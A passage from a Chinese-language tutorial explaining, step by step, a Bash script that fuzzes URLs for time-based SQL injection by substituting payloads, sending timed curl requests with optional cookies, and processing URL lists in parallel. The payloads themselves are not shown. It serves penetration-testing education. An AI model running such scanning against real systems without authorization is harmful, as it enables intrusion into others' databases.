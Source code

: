 起始时间被保存到 **start_time** 变量，以便在循环结束时参考。

**fuzzed_url** 变量被赋值为 **${url//FUZZ/$payload}** 参数展开的结果：

```
 fuzzed_url=${url//FUZZ/$payload}
```

这是 Bash 中用于字符串操作的参数展开语法。它告诉 Bash 将 **url** 变量中所有出现的 **FUZZ** 字符串替换为当前的 **$payload** 值。

这里我们根据命令行参数，决定是否带有 Cookie 头部发送请求到模糊化的 URL：

```
 if [ -n "$cookie_header" ]; then
            curl -s -o /dev/null --max-time 20 -H "Cookie: $cookie_header" "$fuzzed_url"
        else
            curl -s -o /dev/null --max-time 20 "$fuzzed_url"
        fi
```

以下代码计算请求的持续时间：

```
 end_time=$(date +%s)
        duration=$((end_time - start_time))
```

以下代码检查请求时长是否表明存在潜在的基于时间的 SQL 注入漏洞：

```
 if ((duration >= 7 && duration <= 16)); then
            echo "Potential time-based SQL injection vulnerability detected on $url with payload: $payload"
            break
        fi
    done
}
export -f perform_sqli_test
```

每个有效负载中都包含了 7 秒的值。根据网络条件和服务器负载，我们预计响应时间至少需要 7 秒或更长时间。我们将函数导出，以便在 shell 中调用。

在这里，我们通过从文件中读取或使用单个 URL 来处理 URL 列表：

```
 process_urls() {
    local url_list=$1
    local cookie_header=$2
    if [ -f "$url_list" ]; then
        cat "$url_list" | parallel perform_sqli_test {} "$cookie_header"
    else
        perform_sqli_test "$url_list" "$cookie_header"
    fi
}
```

接下来，我们调用在脚本开头定义的**check_dependencies**函数：

```
 check_dependencies
```
